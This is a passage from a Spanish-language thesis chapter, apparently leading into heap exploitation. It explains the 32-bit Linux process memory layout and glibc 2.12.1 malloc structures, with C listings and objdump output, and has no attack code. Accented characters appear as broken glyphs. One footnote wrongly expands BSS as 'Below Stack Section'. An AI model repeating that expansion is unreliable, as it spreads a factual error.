    
\includegraphics[scale=0.6]{./Chapters/Introduccion/ConceptosBasicos/img/process_memory_layout.eps}   
    \caption{Mapa de memoria de un proceso}
    \label{fig:process_memory_layout}
\end{figure}

Lo primero que se puede apreciar es que la direcci�n de carga del proceso no es 0x00000000, sino 0x08000000. Esta direcci�n puede variar entre sistemas operativos y arquitecturas, pero la idea principal es que dicha direcci�n la especifica el enlazador o \textit{linker} en el proceso de compilaci�n del binario\footnote{En Linux, normalmente la direcci�n de carga para arquitecturas de 32 bits acostumbra a ser 0x8048000, para arquitecturas de 64 bits acostumbra a ser 0x400000.}. Y si bien es cierto que la direcci�n de carga se puede especificar manualmente, la mayor�a de procesos se cargan en direcciones cercanas a 0x08000000. \cite{LL} 

Esta decisi�n no es del todo arbitraria sino que tiene un prop�sito. El objetivo de cargar un proceso a partir de dicha direcci�n es evitar la sobreescritura de datos si se produce lo que se conoce como \textit{NULL pointer dereference}. Un NULL pointer dereference se da cuando un programador comete el error de escribir en la direcci�n de memoria 0x00000000 pensando que est� escribiendo en una direcci�n v�lida. Esto puede ocurrir cuando, por ejemplo, se llama a la funci�n \textit{malloc()} y no se comprueba que su valor de retorno sea v�lido.\\
As� pues, por conveniencia, los procesos se cargan en memoria en direcciones cercanas a la comentada, de modo que dejen un margen de unos 128MB de memoria para evitar que estos errores del programador desemboquen en situaciones peores.\cite{WVCC} \bigskip

Por otro lado, a partir de la direcci�n de memoria 0xc0000000 se ubican los datos utilizados por el sistema operativo, por tanto, este es el l�mite superior del proceso\cite{UTLVMM}. \\
De la direcci�n 0xc0000000 hacia abajo, se encuentran los argumentos y las variables de entorno que ha heredado el proceso al ser ejecutado desde la l�nea de comandos\cite{AOAPIM}. \bigskip

\pagebreak

A continuaci�n se detalla qu� datos se almacenan en cada una de los siguientes segmentos\cite{GHH-Pages129-130}:
\begin{itemize}
\item \textbf{stack:}\\ En el \textit{stack} o pila se almacenan los datos relativos a las llamadas a funciones. Sus par�metros, variables locales, direcci�n de retorno, etc. Tal y como indica la flecha del diagrama, la pila crece de las direcciones altas de memoria hacia las direcciones bajas. Mucha m�s informaci�n sobre la pila se puede encontrar en la investigaci�n mencionada en el apartado \ref{sec:related_work}.
\item \textbf{mmap:}\\ En el segmento mmap se almacenan datos varios tales como librer�as compartidas o aquellos datos que se almacenen con la llamada al sistema \textit{mmap()}.
\item \textbf{heap:}\\ El segmento que define el \textit{heap} es en el que se almacenan variables din�micas y crece de direcciones de memoria menores a mayores. Funciones tales como \textit{malloc()}, \textit{realloc()}, \textit{free()}, etc son las que gestionan los contenidos del \textit{heap}. La gesti�n del \textit{heap} es compleja y, por esta raz�n, en los siguientes apartados se detallar� su funcionamiento.
\item \textbf{bss:}\\ El segmento bss\footnote{BSS es el acr�nimo de Below Stack Section.} sirve para almacenar variables globales o est�ticas no inicializadas del estilo |int x;|
\item \textbf{data:}\\ El segmento data se utiliza para almacenar variables globales o est�ticas que se han inicializado del estilo |int x = 0;|. 
\item \textbf{text:}\\ En el segmento text b�sicamente se almacenan las instrucciones que forman el binario. Este segmento es de s�lo lectura y si se intenta escribir en �l se producir�a un error de violaci�n de acceso o \textit{segmentation fault}.
\end{itemize}

El c�digo \ref{code:memLayout} permite corroborar lo que se ha afirmado hasta el momento. En dicho c�digo se crean diferentes variables; est�ticas, globales, locales, inicializadas, etc de modo que posteriormente se imprima la direcci�n virtual donde se ubican dichas variables. De este modo se puede tener una idea de la estructura del proceso en memoria. \bigskip

\pagebreak

\lstset{language=C, caption=Variables de un proceso en memoria, label=code:memLayout}
\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>

/* Variable global inicializada. [data] */
int init_global_var = 10;
/* Variable global no inicializada. [bss] */
int global_var;
/* Variable global estatica inicializada. [data] */      
static int init_static_var = 20;
/* Variable global estatica no inicializada. [bss] */
static int static_var;

int main(int argc, char **argv, char **envp)
{
    /* Variable local estatica inicializada. [data] */
    static int init_static_local_var = 30;
    /* Variable local estatica no inicializada. [bss] */
    static int static_local_var;
    /* Variable local inicializada. [stack] */
    int init_local_var = 40;
    /* Variable local no inicializada. [stack] */
    int local_var;
    /* Variable dinamica. [heap] */
    void * dynamic_var = malloc (100);

    printf("Direccion de la funcion main [.text]: %p\n", 				&main);
    printf("Distancia: %u bytes\n", (void *)&init_global_var - (void*)&main);
    printf("Direccion de la variable global inicializada [.data]: %p\n", 		&init_global_var);
    printf("Distancia: %u bytes\n", (void *)&init_static_var - (void *)&init_global_var);
    printf("Direccion de la variable global estatica inicializada [.data]: %p\n", 	&init_static_var);
    printf("Distancia: %u bytes\n", (void *)&init_static_local_var - (void *)&init_static_var);
    printf("Direccion de la variable local estatica inicializada [.data]: %p\n", 	&init_static_local_var);
    printf("Distancia: %u bytes\n", (void *)&static_var - (void *)&init_static_local_var);
    printf("Direccion de la variable global estatica no inicializada [.bss]: %p\n", 	&static_var);
    printf("Distancia: %u bytes\n", (void *)&static_local_var - (void *)&static_var);
    printf("Direccion de la variable local estatica no inicializada[.bss]: %p\n", 	&static_local_var);
    printf("Distancia: %u bytes\n", (void *)&global_var - (void *)&static_local_var);
    printf("Direccion de la variable global no incializada [.bss]: %p\n", 		&global_var);
    printf("Distancia: %u bytes\n", (void *)&dynamic_var - (void *)&global_var);
    printf("Direccion de la variable dinamica [heap]: %p\n", 				dynamic_var);
    printf("Distancia: %u bytes\n", (void *)&local_var - (void *)&dynamic_var);
    printf("Direccion de la variable local no incializada [stack]: %p\n", 		&local_var);
    printf("Distancia: %u bytes\n", (void *)&init_local_var - (void *)&local_var);
    printf("Direccion de la variable local inicializada [stack]: %p\n", 		&init_local_var);
    printf("Distancia: %u bytes\n", (void *)&envp[0] - (void *)&init_local_var);
    printf("Direccions de la variable de entorno [cerca de 0xc0000000]: %p\n", 		&envp[0]);

    exit(0);
}
\end{lstlisting}

Una vez ejecutado se obtiene lo siguiente: \bigskip

\begin{listing}[style=consola, caption=Variables de un proceso en memoria, label=out:memLayout]	
newlog@ubuntu:~/Documents/TFM/Heap_Intro$ gcc mem_layout.c 
newlog@ubuntu:~/Documents/TFM/Heap_Intro$ ./a.out 
Direccion de la funcion main [.text]: 0x8048424
Distancia: 7160 bytes
Direccion de la variable global inicializada [.data]: 0x804a01c
Distancia: 4 bytes
Direccion de la variable global estatica inicializada [.data]: 0x804a020
Distancia: 4 bytes
Direccion de la variable local estatica inicializada [.data]: 0x804a024
Distancia: 12 bytes
Direccion de la variable global estatica no inicializada [.bss]: 0x804a030
Distancia: 4 bytes
Direccion de la variable local estatica no inicializada[.bss]: 0x804a034
Distancia: 4 bytes
Direccion de la variable global no incializada [.bss]: 0x804a038
Distancia: 3086571420 bytes
Direccion de la variable dinamica [heap]: 0x8987008
Distancia: 4 bytes
Direccion de la variable local no incializada [stack]: 0xbffdf7d8
Distancia: 4 bytes
Direccion de la variable local inicializada [stack]: 0xbffdf7dc
Distancia: 192 bytes
Direccions de la variable de entorno [cerca de 0xc0000000]: 0xbffdf89c
\end{listing}

Si uno se fija en las direcciones de las variables y las contrasta con la Figura \ref{fig:process_memory_layout} podr� intuir que todo parece correcto, sin embargo, debido a que no se conoce donde empieza cada segmento no se puede asegurar s�lo con lo que se ha visto hasta el momento. Es en este momento en el que entra en escena la aplicaci�n \textit{objdump}. Esta utilidad tiene much�simas aplicaciones y una de ellas es la que se ilustra a continuaci�n: \bigskip

\begin{listing}[style=consola, caption=Salida de objdump -x, label=out:objdump-x]	
newlog@ubuntu:~/Documents/TFM/Heap_Intro$ objdump -x a.out | grep -E 'main|init_global_var|init_static_var|init_static_local_var|static_var|static_local_var|global_var|dynamic_var'
0804a020 l     O .data	00000004              init_static_var
0804a030 l     O .bss	00000004              static_var
0804a024 l     O .data	00000004              init_static_local_var.2210
0804a034 l     O .bss	00000004              static_local_var.2211
0804a01c g     O .data	00000004              init_global_var
00000000       F *UND*	00000000              __libc_start_main@@GLIBC_2.0
0804a038 g     O .bss	00000004              global_var
08048424 g     F .text	0000022d              main
\end{listing}

Con |objdump -x| se obtiene la informaci�n sobre la cabecera del binario ELF generado con gcc. Tal y como se puede ver en la salida de objdump las variables se almacenan en los segmentos de memoria que se han comentado. Por otro lado, se puede ver que las variables que se almacenan en el heap y en el stack no aparecen en la salida de objdump. Esto se debe a que objdump trabaja sobre el binario y no sobre el proceso cargado en memoria. Por esta raz�n, para dichas variables s�lo nos podemos guiar por el C�digo \ref{code:memLayout}. \bigskip

Por �ltimo, comentar que estos datos pueden variar un poco entre sistema operativo debido a que, en este caso, s�lo se ha explicado dicha estructura teniendo en mente el sistema operativo Linux sobre una arquitectura de 32 bits.


\pagebreak

\section{Estructuras de datos relevantes}

En este apartado se detallan aquellas estructuras que son relevantes para realizar la gesti�n de datos del \textit{heap}.\\
Al final se tendr� una visi�n general de d�nde y c�mo se estructuran los datos que se almacenan en el \textit{heap} y, de este modo, conocer la manera en la que se gestionan los datos una vez se almacenan o liberan.
\bigskip

Los fragmentos de c�digo que se mostrar�n a continuaci�n se han extra�do de la versi�n 2.12.1 de la librer�a GNU est�ndar de C o, como se nombrar� en este documento a partir de ahora, \textit{glibc}. El c�digo fuente de la librer�a se puede encontrar en el enlace mencionado a pie de p�gina\footnote{La librer�a \textit{glibc} 2.12.1 se puede descargar de:\\ \url{http://ftp.gnu.org/gnu/glibc/glibc-2.12.1.tar.gz}}. \bigskip

Una vez descargado y descomprimido el archivo se podr� acceder al directorio \textit{glibc-2.12.1}. Dentro de este directorio examinaremos algunos de los archivos que se encuentran en la carpeta \textit{malloc} tales como \textit{malloc.c, malloc.h o arena.c}. Por otro lado, el directorio \textit{include}, dentro del directorio \textit{glibc-2.12.1}, contiene el archivo \textit{malloc.h} que tambi�n ser� de inter�s. A partir de ahora, siempre que se refiera a \textit{malloc.c, malloc.h o arena.c} se hace referencia a aquellos archivos ubicados en el directorio \textit{malloc} a menos que se especifique lo contrario.\bigskip

\subsection{Estructura heap\_info}

Un mismo proceso puede tener uno o varios \textit{heaps} dependiendo del n�mero de hilos - o \textit{threads} - del proceso. Es por esta raz�n que es necesaria una estructura que re�na y gestione este conjunto de \textit{heaps}. Esta estructura se conoce como \textit{heap\_info} y est� detallada en el C�digo \ref{code:heap_info_struct}. \bigskip

\lstset{language=C, caption=heap\_info (arena.c:59), label=code:heap_info_struct}
\begin{lstlisting}
typedef struct _heap_info {
  mstate ar_ptr;            /* Arena for this heap. */
  struct _heap_info *prev;  /* Previous heap. */
  size_t size;              /* Current size in bytes. */
  size_t mprotect_size;     /* Size in bytes that has been mprotected
                               PROT_READ|PROT_WRITE.  */
  /* Make sure the following data is properly aligned, particularly
     that sizeof (heap_info) + 2 * SIZE_SZ is a multiple of
     MALLOC_ALIGNMENT. */
  char pad[-6 * SIZE_SZ & MALLOC_ALIGN_MASK];
} heap_info;
\end{lstlisting}

\begin{itemize}
\item \textbf{ar\_ptr}
\begin{myindentpar}{1cm}
La primera variable |ar_ptr| es del tipo |mstate| y se conoce como \textit{arena pointer}. Este tipo est� definido en el c�digo ubicado en el fichero \textit{include/malloc.h} tal que as�:  

\lstset{language=C, caption=mstate (include/malloc.h:11), label=code:mstate_struct}
\begin{lstlisting}
struct malloc_state;
typedef struct malloc_state *mstate;
\end{lstlisting}

Como se puede ver, |malloc_state| y |mstate| son equivalentes.\\
|mstate| es un puntero a la estructura |malloc_state| y la estructura |malloc_state| est� definida en el archivo \textit{malloc.c} y debido a su importancia tambi�n se detallar� en este apartado.\\
La variable |ar_ptr| hace referencia a la estructura |malloc_state| que es donde se gestionan todos los datos que se almacenen en el \textit{heap}. Esta definici�n de los datos implica que la relaci�n entre \textit{arenas} y \textit{heaps} es de uno a uno.\bigskip

Tal y como ya se ha comentado, un proceso puede tener varios \textit{heaps}, as� que el proceso de uso de los \textit{heaps} se basa en que cuando un proceso necesita almacenar nuevos datos, se busca si existe alg�n \textit{arena} sin bloquear\footnote{Debido a que \textit{ptmalloc} est� implementado para aplicaciones \textit{multithreaded} algunas estructuras de memoria pueden estar bloqueadas con t�cnicas de gesti�n de memoria compartida.}, de ser as�, se utiliza para almacenar los nuevos datos, de no existir ning�n \textit{arena} sin bloquear, se crea un nuevo \textit{heap} y se almacenan los datos en su respectivo \textit{arena}. Esta t�cnica se utiliza para reducir la problem�tica conocida como \textit{lock contention}.\cite{MPIAMLE}
\end{myindentpar}

\item \textbf{prev}
\begin{myindentpar}{1cm}
Con la variable |prev| se gestionan todas las estructuras |heap_info| que se crean durante la gesti�n de la memoria din�mica de un proceso. Como ya se ha comentado, es posible que un mismo proceso tenga m�ltiples \textit{heaps}. Estos \textit{heaps} se gestionan a trav�s de una lista enlazada de estructuras |heap_info|[arena.c:106]. \\
Sin embargo, dicha variable s�lo se utiliza en tres partes del c�digo. La primera es la funci�n |new_heap| [arena.c:693] que crea un nuevo \textit{heap} y devuelve una variable de tipo |heap_info *|, con todo y con eso, la variable |prev| no se inicializa en dicha funci�n. La segunda parte es en la funci�n |heap_trim| [arena.c:840] y, de nuevo, en esta funci�n tampoco se inicializa la variable, s�lo se utiliza.
Finalmente, la variable |prev| se inicializa en la funci�n |sYSMALLOc| [malloc.c:2965] despu�s de llamar a la funci�n |new_heap|. Sin embargo, la funci�n |sYSMALLOc| s�lo se llama cuando las peticiones de almacenamiento de datos cumplen ciertos requisitos en cuanto al tama�o de los datos, y dichos requisitos pocas veces se cumplen [malloc.c:4747].\\
En pocas palabras, parece que esta variable se utiliza en situaciones marginales y la l�gica de su funcionamiento no es muy clara.
\end{myindentpar}

\item \textbf{size}
\begin{myindentpar}{1cm}
En la variable |size| se almacena el tama�o del propio \textit{heap}.
\end{myindentpar}
\end{itemize}

Tanto la variable |pad| como la variable |mprotect_size| no son relevantes y con los comentarios del c�digo fuente hay m�s que suficiente. \bigskip

\subsection{Arena}

La siguiente estructura a analizar es |malloc_state|. Esta estructura es la que se conoce como \textit{arena}. El c�digo que la define es el siguiente: \bigskip

\lstset{language=C, caption=malloc\_state (malloc.c:2362), label=code:malloc_state_struct}
\begin{lstlisting}
struct malloc_state {
  /* Serialize access.  */
  mutex_t mutex;

  /* Flags (formerly in max_fast).  */
  int flags;

#if THREAD_STATS
  /* Statistics for locking.  Only used if THREAD_STATS is defined.  */
  long stat_lock_direct, stat_lock_loop, stat_lock_wait;
#endif

  /* Fastbins */
  mfastbinptr      fastbinsY[NFASTBINS];

  /* Base of the topmost chunk -- not otherwise kept in a bin */
  mchunkptr        top;

  /* The remainder from the most recent split of a small request */
  mchunkptr        last_remainder;

  /* Normal bins packed as described above */
  mchunkptr        bins[NBINS * 2 - 2];

  /* Bitmap of bins */
  unsigned int     binmap[BINMAPSIZE];

  /* Linked list */
  struct malloc_state *next;

#ifdef PER_THREAD
  /* Linked list for free arenas.  */
  struct malloc_state *next_free;
#endif

  /* Memory allocated from the system in this arena.  */
  INTERNAL_SIZE_T system_mem;
  INTERNAL_SIZE_T max_system_mem;
};
\end{lstlisting}

\begin{itemize}
\item \textbf{fastbinsY[...]}
\begin{myindentpar}{1cm}
En la variable |fastbin|\footnote{A partir de ahora a la variable \textit{fastbinY} se la llamar� \textit{fastbin} ya que as� es como se conoce al concepto que define.} se almacenan fragmentos de memoria que se han liberado recientemente. Esta variable almacena dichos fragmentos de memoria y se utilizan en un orden |LIFO| por cuestiones de rendimiento a diferencia de los \textit{bins}\footnote{El concepto \textit{bin} se definir� a continuaci�n, por ahora basta con saber que con \textit{bin} se identifica a un espacio de memoria en el que almacenar y organizar los fragmentos de memoria asignados.} normales que se utilizan en un orden |FIFO| [malloc.c:2263].\\
Los fragmentos de memoria referenciados en la variable \textit{fastbin} mantienen su bit \textit{inuse}  [\ref{sec:memory_chunks}] a 1 de modo que estos fragmentos de memoria nunca se fusionan para crear un fragmento de memoria liberado m�s grande, a menos que se ejecute la funci�n |malloc_consolidate|[malloc.c:5088] que libera los fragmentos de memoria de los \textit{fastbins} y los fusiona con otros fragmentos de memoria libres [malloc.c:2271].\\
El tipo de la variable \textit{fastbin} es un puntero a |malloc_chunk| tal y como se define en [malloc.c:2277]:\bigskip

\lstset{language=C, caption=mfastbinptr (malloc.c:2277), label=code:mfastbinptr}
\begin{lstlisting}
typedef struct malloc_chunk* mfastbinptr;
\end{lstlisting}
La estructura |malloc_chunk| se estudiar� m�s adelante, sin embargo, se puede avanzar que dicha estructura identifica a un fragmento de memoria.\\
El n�mero de \textit{fastbins} viene definido por la constante |NFASTBINS|, que en el caso de una arquitectura de 32 bits  donde el tama�o del tipo |size_t| es de 4 bytes el valor de la constante es 10\cite{UTHBBI}.\bigskip

El objetivo de esta variable es el de tener acceso a peque�os fragmentos de memoria que est�n libres y a punto para poder almacenar datos de un modo eficiente. Esta estructura permite tener acceso a fragmentos de memoria libres de un modo eficiente, sin embargo, debido a que dichos fragmentos de memoria no se fusionan con otros fragmentos libres se incrementa el nivel de fragmentaci�n de la memoria.\bigskip 
\end{myindentpar}

\item \textbf{top}
\begin{myindentpar}{1cm}
La variable \textit{top} es de tipo |mchunkptr| que como se puede ver a continuaci�n no es m�s que un puntero a una estructura |malloc_chunk|:\bigskip
\lstset{language=C, caption=mchunkptr (malloc.c:1608), label=code:mchunkptr}
\begin{lstlisting}
struct malloc_chunk;
typedef struct malloc_chunk* mchunkptr;
\end{lstlisting}
La estructura |malloc_chunk| se estudiar� m�s adelante, sin embargo, se puede avanzar que dicha estructura identifica a un fragmento de memoria.\\
As� pues, la variable \textit{top} identifica un fragmento de memoria en especial que delimita el final de la memoria disponible del \textit{arena}. Este fragmento no est� almacenado en ning�n \textit{bin} y representa el espacio libre o sin asignar del propio \textit{arena}. S�lo se asigna espacio de memoria del \textit{top} cuando no hay ning�n otro fragmento de memoria libre [malloc.c:2217].
\end{myindentpar}

\item \textbf{last\_remainder}
\begin{myindentpar}{1cm}
Igual que la variable |top|, la variable |last_remainder| identifica un fragmento de memoria - |mchunkptr| - libre. Este fragmento de memoria es especial porque es el espacio restante cuando otro fragmento de memoria de poco tama�o se ha dividido para almacenar otros datos. Espec�ficamente, |last_remainder| apunta al �ltimo fragmento de poco tama�o dividido [malloc.c:2380].\\
El uso de la variable |last_remainder| se da en [malloc.c:4401].
\end{myindentpar}

\item\label{lab:bin_definition} \textbf{bins[...]}
\begin{myindentpar}{1cm}
\paragraph{}\label{par:bins}
La variable |bins| es un array que apunta a diferentes fragmentos de memoria |mchunkptr|. El objetivo de la variable |bins| es mantener una lista de varios fragmentos de memoria libres y de diferentes tama�os. En la mayor�a de los casos, cuando se haga una petici�n de memoria por parte del usuario, los datos se almacenar�n en alg�n \textit{bin} que est� disponible y que sea del tama�o adecuado. Es por esta raz�n que esta estructura es una de las m�s importantes. Existen un total de 128 \textit{bins} definidos por la constante |NBINS| [malloc.c:2162], sin embargo, el tama�o del array |bins| es de |NBINS| * 2 - 2, o sea, 254.\\
La variable \textit{bins} es un array, pero cada uno de estos \textit{bins} - o posiciones del array - identifica un fragmento de memoria que est� doblemente enlazado con otros fragmentos de memoria. As� pues, cada uno de los \textit{bins} apunta hacia una lista enlazada de fragmentos de memoria libres. De este modo, los fragmentos de memoria libres de los que dispone el proceso se organizan de un modo en el que su acceso es �ptimo. \\
Tal y como se especifica en el c�digo fuente [malloc.c:2141] existen los siguientes \textit{bins} con sus respectivos tama�os: \bigskip

\UndefineShortVerb{\|} %% Necesario para poner la barra vertical entre las filas de la tabla (linea 153).
\begin{table}[!htp]
	\topfigrule
   	\addtolength{\abovecaptionskip}{-12pt}   	
   	\caption{Tama�o de los bins}
   	\label{tab:bin_sizes}   		
	\begin{center}
	\begin{tabular}{c | c}
		\hline
		N�mero de bins & Tama�o del bin (bytes) \\
		\hline
		64 & 8 \\
		\hline
		32 & 64 \\
		\hline
		16 & 512 \\
		\hline
		8 & 4096 \\
		\hline
		4 & 32768 \\
		\hline
		2 & 262144 \\
		\hline
		1 & Lo que queda \\
		\hline
	\end{tabular}
	\end{center}
\end{table}
\DefineShortVerb{\|} 
\end{myindentpar}

\item \textbf{next}
\begin{myindentpar}{1cm}
Para puntualizar m�s que lo comentado en el c�digo de la estructura |malloc_state| esta variable mantiene una lista enlazada circular de los \textit{arenas} existentes [arena.c:510]. Se puede ver su inicializaci�n en [arena.c:944] cuando es necesario crear un nuevo \textit{arena}. De este modo se puede acceder a un \textit{arena} o a otro dependiendo de si dichos \textit{arenas} est�n siendo utilizados - y, por lo tanto, bloqueados - en el mismo momento en que se necesita hacer una reserva de memoria. \\
Evidentemente, debido a que enlaza otros \textit{arenas}, su tipo es un puntero a la estructura |malloc_state|.
\end{myindentpar}

\item \textbf{next\_free}
\begin{myindentpar}{1cm}
Esta variable es una lista de \textit{arenas} que supuestamente est�n libres. Sin embargo, en el c�digo malloc.c no se le da ning�n uso, o sea, que a efectos pr�cticos es como si no existiera. En el archivo de c�digo arena.c existe una funci�n llamada |get_free_list()| en la que se trabaja con dicha variable, sin embargo, esta funci�n tampoco se ejecuta en ninguna parte de malloc.c.
\end{myindentpar}

\end{itemize}

Las variables que no se han detallado, no son relevantes para comprender a grandes rasgos c�mo funciona la gesti�n de la memoria din�mica. Las variables |mutex|, |stat_lock_direct|, |stat_lock_loop| y |stat_lock_wait| tienen que ver con cuestiones de memoria compartida. La primera se encarga de bloquear el \textit{arena} cuando est� en uso y las dem�s sirven para generar estad�sticas sobre dichos bloqueos.\\
Por otro lado, el array |binmap[...]| sirve para saber si los \textit{bins} est�n vac�os o no. Utilizado por cuestiones de rendimiento cuando se ha de encontrar un \textit{bin} disponible.\\
Por �ltimo, las variables |system_mem| y |max_system_mem| sirven para saber cuanta memoria del sistema se ha almacenado en el propio \textit{arena}. \bigskip


\subsection{Fragmentos de memoria}
\label{sec:memory_chunks}

Los fragmentos de memoria - o \textit{malloc chunks} - es donde se almacenan los datos por los que el usuario ha pedido espacio. Esta estructura de memoria es una de las m�s importantes ya que dependiendo de c�mo se gestionen las operaciones que le afectan es posible que se introduzcan vulnerabilidades en el algoritmo. \bigskip

El c�digo que identifica a los fragmentos de memoria es el siguiente: \bigskip

\lstset{language=C, caption=malloc\_chunk (malloc.c:1809), label=code:malloc_chunk_struct}
\begin{lstlisting}
struct malloc_chunk {
  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      prev_size;
  /* Size in bytes, including overhead. */
  INTERNAL_SIZE_T      size;

  /* double links -- used only if free. */
  struct malloc_chunk* fd;
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  /* double links -- used only if free. */
  struct malloc_chunk* fd_nextsize;
  struct malloc_chunk* bk_nextsize;
};
\end{lstlisting}

Como se puede ver por los comentarios del C�digo \ref{code:malloc_chunk_struct}, hay datos de la propio estructura que s�lo se utilizan si el fragmento de memoria est� en cierto estado. Esto significa que dependiendo del estado en el que est� el fragmento de memoria, se tendr� una representaci�n ''pr�ctica'' u otra.\\
Un fragmento de memoria s�lo puede estar en dos estados. En uso o libre. Tal y como se ha explicado anteriormente, si el fragmento de memoria est� libre, su direcci�n se acabar� almacenando en un \textit{bin}. Si el fragmento de memoria est� en uso, el usuario obtendr� la direcci�n de memoria donde podr� almacenar sus datos. \bigskip

Un fragmento de memoria en uso tiene la representaci�n que se muestra en la Figura \ref{fig:malloc_chunk_in_use}.

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=0.6]{./Chapters/HeapExploiting/HeapTheory/Estructuras/img/AllocatedChunk.eps}   
    \caption{Fragmento de memoria en uso}
    \label{fig:malloc_chunk_in_use}
\end{figure}

En la Figura \ref{fig:malloc_chunk_in_use} el puntero |chunk| apunta al principio del fragmento de memoria. La direcci�n de memoria a la que apunta |chunk| se utiliza por las rutinas internas del algoritmo. Adem�s, justo donde apunta |chunk| se encuentra el tama�o del fragmento de memoria, s�lo si dicho fragmento tambi�n est� en uso. \\
El siguiente campo de la estructura de datos es el tama�o del propio fragmento de memoria. Suponiendo una arquitectura de 32 bits, cada uno de estos campos es de 4 bytes, tal y como se puede comprobar a partir del tipo de cada campo: \bigskip

\lstset{language=C, caption=INTERNAL\_SIZE\_T (malloc.c:385), label=code:INTERNAL_SIZE_T}
\begin{lstlisting}
#ifndef INTERNAL_SIZE_T
#define INTERNAL_SIZE_T size_t
#endif
\end{lstlisting}

Por otro lado, los fragmentos de memoria siempre est�n alineados a un cierto valor. Esto se debe a que siempre que se hace una llamada a funciones como |malloc()|, el tama�o que se le pasa como argumento a la funci�n es substituido por un tama�o que cumpla ciertos requisitos tal y como se puede ver en las siguientes macros.\bigskip

\pagebreak

\lstset{language=C, caption=checked\_request2size (malloc.c:1955), label=code:checked_request2size}
\begin{lstlisting}
/* pad request bytes into a usable size -- internal version */

#define request2size(req)                                         \
  (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)  ?             \
   MINSIZE :                                                      \
   ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)

/*  Same, except also perform argument check */

#define checked_request2size(req, sz)                             \
  if (REQUEST_OUT_OF_RANGE(req)) {                                \
    MALLOC_FAILURE_ACTION;                                        \
    return 0;                                                     \
  }                                                               \
  (sz) = request2size(req);
\end{lstlisting}

Como se puede ver, la macro |checked_request2size| - que se ejecuta realizar al peticiones de memoria - devuelve 0 si el tama�o de la petici�n est� fuera de rango y de lo contrario, ejecuta la macro |request2size| que devuelve el tama�o correcto para la petici�n.\\
